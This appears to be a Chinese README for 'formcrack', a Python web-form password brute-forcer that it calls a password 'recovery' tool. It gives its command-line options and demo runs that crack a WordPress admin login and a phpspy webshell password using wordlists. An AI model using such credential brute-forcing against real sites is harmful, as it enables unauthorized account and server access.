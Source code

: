 # formcrack

一个简单的 web 表单密码找回工具, 自动识别用户名与密码字段, 可以对 webshell 与网站进行密码找回 : )

## 开发与运行环境

* python 2.7.10
* requests
* BeautifulSoup4

## 如何安装与运行

### 安装

```bash
$ pip install requests BeautifulSoup4

```

### 运行

```bash
$ python fromcrack.py

usage: fromcrack.py [-h] -s URL [-a ACTION] [-t TIME] [-v] [-u U] [-U U]
                    [-p P] [-P P]

fromcrack.py: error: argument -s is required
```

## 命令行参数说明

1. -s
> 登陆地址, 如: http://目标/admin/login.php

1. -a
> 表单提交的 action 地址, 指定表单提交地址.

1. -t
> 延时请求, 单位(秒).

1. -v
> 显示详细找回账号过程信息.

1. -u
> (小写的u)指定一个用户名

1. -U
> (大写的U)指定一个用户名列表文件

1. -p
> (小写的p)指定一个密码

1. -P
> (大写的P)指定一个密码列表文件

## 命令行参数演示

找回 wrodpress 账号与密码, 并且每次延时两秒

```bash
$ python fromcrack.py -s http://172.16.213.179/wp-login.php -p admin123 -v -t 2
target: [http://172.16.213.179/wp-login.php], user count: [10], password count: [1] ...
[*] Test error data: [log=gkhrj&pwd=ubvasefy&rememberme=forever&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=http%3A%2F%2F172.16.213.179%2Fwp-admin%2F&testcookie=1]
[*] send crack data package: log=admin&pwd=admin123&rememberme=forever&wp-submit=%E7%99%BB%E5%BD%95&redirect_to=http%3A%2F%2F172.16.213.179%2Fwp-admin%2F&testcookie=1
[+] == successful, user: [admin], password: [admin123] ==
```

找回 webshell 密码

```bash
python fromcrack.py -s http://172.16.213.179/phpspy.php -P ./dict/webshell.txt -v
target: [http://172.16.213.179/phpspy.php], user count: [10], password count: [1544] ...
[*] Test error data: [spiderpass=xoykuplw&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3]
[*] send crack data package: spiderpass=pass&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=598971996&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=adminyouge&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=sbadmin&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=mkak5cpa&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=040627&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=123&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=xx&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=987987&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=adminasb&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[*] send crack data package: spiderpass=admin&submit=%B7%A8%BF%CD%D0%A1%D7%E9%D1%A7%CF%B0%BD%BB%C1%F7%D7%A8%D3%C3
[+] == successful, password: [admin] ==
```

## 待开发完善功能

* 验证码提醒与跳过
* 加入了错误信息判断功能，即输入密码错误的时候，从dic/error.txt文件里面读取错误的提示进行判断，原来的方式有bug,没有进行错误信息判断，随便读取一个密码都认为是正确的密码。
第264行 status_error=content.count(error_info) #计算error_info字符出现的次数
